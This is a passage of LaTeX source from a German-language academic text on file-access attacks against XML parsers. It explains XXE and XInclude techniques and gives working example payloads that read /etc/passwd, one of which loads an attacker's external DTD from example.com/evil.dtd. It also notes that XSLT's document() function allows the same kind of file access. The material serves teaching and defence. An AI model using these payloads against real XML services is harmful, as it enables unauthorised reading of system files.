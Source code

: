 \begin{samepage}
\begin{example}
    In der \acrshort{dtd} des \acrshort{xml}-Dokuments definiert der Angreifer Parameter Entities für den Inhalt der Datei \texttt{/etc/passwd} sowie für Beginn und Ende einer CDATA-Sektion.

    \begin{verbatim}
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % end "]]>">
  <!ENTITY % dtd SYSTEM "http://example.com/evil.dtd">
  %dtd;
]>
<root>&all;</root>
    \end{verbatim}
    Mithilfe einer externen \acrshort{dtd}-Datei, die vom Angreifer unter der im Dokument angegeben \acrshort{url} abgelegt wurde, werden die einzelnen Parameter Entities zusammengesetzt.

    \begin{verbatim}
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%file;%end;">
    \end{verbatim}
\end{example}
\end{samepage}

\paragraph{\acrshort{xinclude}}

Auch bei Angriffen auf Basis von \gls{xinclude} enthält das zu parsende \acrshort{xml}-Dokument eine Anweisung zum Einbetten einer lokalen Datei. Im Gegensatz zu klassischen \acrshort{xxe}-Angriffen kann der eingebette Inhalt jedoch beliebiger Text sein, darf also z.B. auch ungültiges \acrshort{xml}-Markup enthalten.~\cite[S.~80]{spaeth2015dtdattacks}

\begin{example} Der \acrshort{xml}-Parser wird angewiesen, den Inhalt der Datei \texttt{/etc/passwd} in das Dokument einzubetten.
    \begin{verbatim}
<?xml version="1.0" encoding="UTF-8"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text" />
</root>
    \end{verbatim}
\end{example}

Auch \acrfull{xslt} erlaubt die Einbindung von Dateien, beispielsweise über die \texttt{fn:document}-Funktion~\cite[Abschn. 20.1]{xslt} und eigenet sich daher prinzipell für \acrshort{fsa}-Angriffe.


